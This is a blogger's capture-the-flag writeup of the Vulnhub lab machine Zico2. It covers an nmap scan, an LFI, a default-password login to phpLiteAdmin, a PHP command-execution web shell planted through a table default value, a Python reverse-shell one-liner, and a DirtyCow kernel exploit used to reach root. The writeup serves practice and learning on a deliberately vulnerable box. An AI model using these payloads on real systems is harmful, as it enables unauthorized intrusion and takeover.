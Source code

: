 ```yaml
---
layout: default
title : muzec - Zico2 Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/117451151-23ce6b00-af10-11eb-8417-a95f64436697.png)

So i was also hitting all the OSCP like Box on Vulnhubs Damn guys guess what?? am really getting my A** kick like a lot lol so let get started today the box is Zico2 which can be easily download here `https://www.vulnhub.com/entry/zico2-1,210/` .

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu May  6 15:40:41 2021 as: nmap -p- -sC -sV -oA nmap 172.16.139.170
Nmap scan report for 172.16.139.170
Host is up (0.00020s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35483/udp6  status
|   100024  1          35727/udp   status
|   100024  1          49061/tcp   status
|_  100024  1          52842/tcp6  status
49061/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  6 15:40:59 2021 -- 1 IP address (1 host up) scanned in 18.38 seconds
```

4 open ports we already know we are hitting port 80 first let see what we have on the web page.

![image](https://user-images.githubusercontent.com/69868171/117451151-23ce6b00-af10-11eb-8417-a95f64436697.png)

Looking around we found a page with a LFI vulnerability.

![image](https://user-images.githubusercontent.com/69868171/117452058-5167e400-af11-11eb-8a8e-3ed65ebdcf75.png)

Not going to lie i spend hours trying to get it from LFI to RCE but no luck so i decided to burst some directory.

![image](https://user-images.githubusercontent.com/69868171/117455282-0a7bed80-af15-11eb-96be-ff3a6fdfb7c8.png)

And `http://172.16.139.170/dbadmin/` look interesting let check it out.

![image](https://user-images.githubusercontent.com/69868171/117455487-3a2af580-af15-11eb-9f6c-1f0edf3af6ab.png)

So i click on test_db.php.

![image](https://user-images.githubusercontent.com/69868171/117455586-575fc400-af15-11eb-84ab-2186e616a9c1.png)

And boom a phpLiteAdmin admin page a quick google search give us the default password to log in.

![image](https://user-images.githubusercontent.com/69868171/117455772-7fe7be00-af15-11eb-94cf-8ff9298e99d2.png)

Let try using it to log in.

![image](https://user-images.githubusercontent.com/69868171/117456109-da811a00-af15-11eb-8bb0-aabb49d45ea9.png)

Boom we have access to the phpLiteAdmin admin page and also found some sweet credentials.

![image](https://user-images.githubusercontent.com/69868171/117456239-f97fac00-af15-11eb-804f-0e1a3ee6ab34.png)

So i cracl it thinking it the way to get acess to SSH but nop just a rabbit hole.

![image](https://user-images.githubusercontent.com/69868171/117456407-246a0000-af16-11eb-9fb3-97210a0fa3b0.png)

So back to the phpLiteAdmin admin page since we know the version i try checking for any available exploit using searchsploit.

![image](https://user-images.githubusercontent.com/69868171/117456604-62ffba80-af16-11eb-922e-8bf03c85053f.png)

Hmm the Remote PHP Code Injection look interesting since it match our version.

![image](https://user-images.githubusercontent.com/69868171/117456802-9b9f9400-af16-11eb-9c44-1a4ccdc3ebc5.png)

Ok let follow it.

![image](https://user-images.githubusercontent.com/69868171/117456936-beca4380-af16-11eb-900d-543f72c14632.png)

Now let click on the new created database.

![image](https://user-images.githubusercontent.com/69868171/117457051-dc97a880-af16-11eb-82a8-9576631ea4e0.png)

![image](https://user-images.githubusercontent.com/69868171/117457161-f6d18680-af16-11eb-9036-9e110ee4d411.png)

Now let create a table for it.

![image](https://user-images.githubusercontent.com/69868171/117457800-9a229b80-af17-11eb-8b07-789cb1a474c9.png)

Default Value `<?php echo system($_GET["cmd"]); ?>` and click on create.

![image](https://user-images.githubusercontent.com/69868171/117457981-c9390d00-af17-11eb-8727-42dd8599617e.png)

Now going back to the LFI page to access it.

![image](https://user-images.githubusercontent.com/69868171/117458102-ea016280-af17-11eb-9dbd-3a6e90ec7a65.png)

AHhhh nice adding our parameter to the back boom we have command injection.

![image](https://user-images.githubusercontent.com/69868171/117458218-0ac9b800-af18-11eb-88b9-b5e61cdf09e7.png)

Now let get a reverse shell back to our terminal. [Reverse Shell Cheat Sheet](https://muzec0318.github.io/posts/ReverseShell.html) 

we be using the python reverse shell script `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Note:- do change the IP and port also start an Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/117458539-66944100-af18-11eb-9c66-3202fd946b5f.png)

And we have shell.

![image](https://user-images.githubusercontent.com/69868171/117458735-9c392a00-af18-11eb-8d24-a295754a0e0c.png)

let Spawn a TTY shell. [Spawning A TTY Shell](https://muzec0318.github.io/posts/Ttyshells.html)

![image](https://user-images.githubusercontent.com/69868171/117458926-cdb1f580-af18-11eb-84df-9287abda3f4e.png)

### Privilege Escalation

First thing to check was the version.

![image](https://user-images.githubusercontent.com/69868171/117458997-e4584c80-af18-11eb-8456-aafbad304677.png)

Yea it pretty Old so i run linux-exploit-suggester to find some exploit.

![image](https://user-images.githubusercontent.com/69868171/117459988-01414f80-af1a-11eb-8b6b-2dc652bed2d8.png)

Cool dirtycow 2 so i download the exploit to my machine and transfer it to the target box.

![image](https://user-images.githubusercontent.com/69868171/117460269-5715f780-af1a-11eb-8086-9b54eb9bcca3.png)

Now let complie and run the exploit.

`gcc -pthread 40839.c -o dirty -lcrypt`

![image](https://user-images.githubusercontent.com/69868171/117460506-95131b80-af1a-11eb-869c-99967f674b17.png)

![image](https://user-images.githubusercontent.com/69868171/117460545-9fcdb080-af1a-11eb-87fd-db7451785256.png)

Now let run it.

![image](https://user-images.githubusercontent.com/69868171/117461691-d8ba5500-af1b-11eb-89a3-62f43aeeb734.png)

![image](https://user-images.githubusercontent.com/69868171/117461766-eec81580-af1b-11eb-85a2-60d2c20efbb6.png)

And we are root...

![image](https://user-images.githubusercontent.com/69868171/117461922-1a4b0000-af1c-11eb-9b8c-02a1291c006f.png)

*GOT STUCK A LOT BUT GUESS WHAT WE LEARN EVERYDAY*

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
